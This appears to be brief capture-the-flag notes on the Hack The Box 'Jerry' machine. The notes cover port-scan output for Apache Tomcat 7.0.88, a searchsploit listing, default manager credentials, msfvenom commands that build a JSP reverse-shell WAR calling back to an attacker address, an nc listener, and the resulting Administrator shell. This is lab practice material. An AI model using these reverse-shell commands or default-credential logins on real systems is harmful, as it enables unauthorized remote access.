


8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

kali@kali:~/htb/boxes/jerry/10.10.10.95$ searchsploit tomcat 7.0.88
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                | jsp/webapps/42966.py
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------

tomcat:secr3t

http://10.10.10.95:8080/manager

https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=1234 -f war > shell.war
nc -lvp 1234

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.17 LPORT=443 -f war > shell.war

c:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of c:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,598,540,800 bytes free
